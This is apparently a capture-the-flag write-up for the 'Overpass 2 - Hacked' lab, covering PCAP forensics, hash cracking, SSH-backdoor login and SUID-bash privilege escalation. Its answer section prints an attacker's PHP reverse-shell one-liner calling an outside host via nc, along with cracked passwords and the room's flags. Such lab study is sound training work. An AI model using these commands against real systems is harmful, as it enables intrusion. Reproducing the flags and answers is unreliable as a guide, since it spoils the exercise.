







---
- **Title**: Overpass 2 - Hacked
- **Description**: Overpas has been hacked! Analyze PCAP file to investigate attackers' actions. From there try to hack back in the system.
- **Set up:**
```bash
	### Set $IP variable to the assigned IP Address
	export IP=10.10.147.30
```

# Task 1 - Forensic - Analysis the PCAP

- By filtering the packets by ```http```, I can easily see the URL of the page attackers used to upload the reverse shell. The packet I was looking for was the one with POST request.



- Following HTTP Stream, I can figure all information that tracks down attackers' actions.



- Filtering the PCAP file using ```tcp contains password```, I was able to retrieve 5 users with 5 hashes.



Using John with fastttrack.txt, I was able to crack 4 passwords for 4 users: 




# Task 2 - Research & Analyze the code

_ In the HTTP Stream, I found that attackers downloaded code from a github page: https://github.com/NinjaJc01/ssh-backdoor. Analyzing the code on the github page, we'll find all the answers. After analyzing the codes, I was able to retrieve teh default hash for the backdorr, the hardcoded  salt for the backdoor and the has that the attacker used (from the PCAP file). From there, I was able to crack the password using the list rockyou.txt. Combining the found hash and salt, I was able to crack the password for the backdoor (SHA512($p.$s))

# Task 3 - Attack & Get Back in!
- Visiting the website on port 80, we can easily see the message by the attacker.

- Using the credentials found in Task 2, to ssh to the machine through the backdoor. 

```bash
    ssh james@$IP -p 2222
``` 



- Running some directory exploration, I found user.txt under james' home folder. I also found .suid_bash file, which has suid bit set. This can be used to escalate privilege to root.

```bash
    ls -la /home/james
```


- Referencing [GTFOBin]("https://gtfobins.github.io/"), I was able to get root by running the following command:

```bash
    ./.suid_bash -p
```



And we're done for the room. With root acces, I could get both user's flag and root flag.
<details>
    <summary> Answer </summary>
1. What was the URL of the page they used to upload a reverse shell? -> /development/
2. What payload did the attacker use to gain access? -> <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
3. What password did the attacker use to privesc? -> whenevernoteartinstant
4. How did the attacker establish persistence? -> https://github.com/NinjaJc01/ssh-backdoor
5. Using the fasttrack wordlist, how many of the system passwords were crackable? -> 4
6. What's the default hash for the backdoor? -> bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3
7. What's the hardcoded salt for the backdoor? -> 1c362db832f3f864c8c2fe05f2002a05
8. What was the hash that the attacker used? - go back to the PCAP for this! -> 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
9. Crack the hash using rockyou and a cracking tool of your choice. What's the password? -> november16
10.  The attacker defaced the website. What message did they leave as a heading? -> H4ck3d by CooctusClan
11. What's the user flag? -> thm{d119b4fa8c497ddb0525f7ad200e6567}
12. What's the root flag? -> thm{d53b2684f169360bb9606c333873144d}

</details>

